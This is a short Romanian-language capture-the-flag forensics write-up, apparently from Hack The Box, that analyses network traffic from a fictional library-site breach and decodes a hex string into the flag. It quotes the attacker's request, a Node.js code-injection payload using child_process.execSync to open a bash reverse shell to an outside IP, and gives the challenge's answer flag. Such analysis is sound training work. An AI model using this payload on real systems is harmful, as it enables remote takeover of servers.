


Sarcina:
```
On the haunting night of Halloween, the website of "Shadowbrook Library"—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity.
Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths.
Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.
```

În sarcina dată avem captura traficului de rețea unde avem trafic de tipul `HTTP` și `TCP`. Să analizăm traficul:



Avem acest request care de fapt este un `Revers Shell` care lucreaza pe `TCP`
```
http://shadowbrook.htb/?user=exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```
În felul dat arată query dacă nu este codat în `URL`.
Verificam traficul `TCP`:



`4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d`

Flagul nostru este întrun format hex:
După decriptarea acestui avem flagul: `HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}`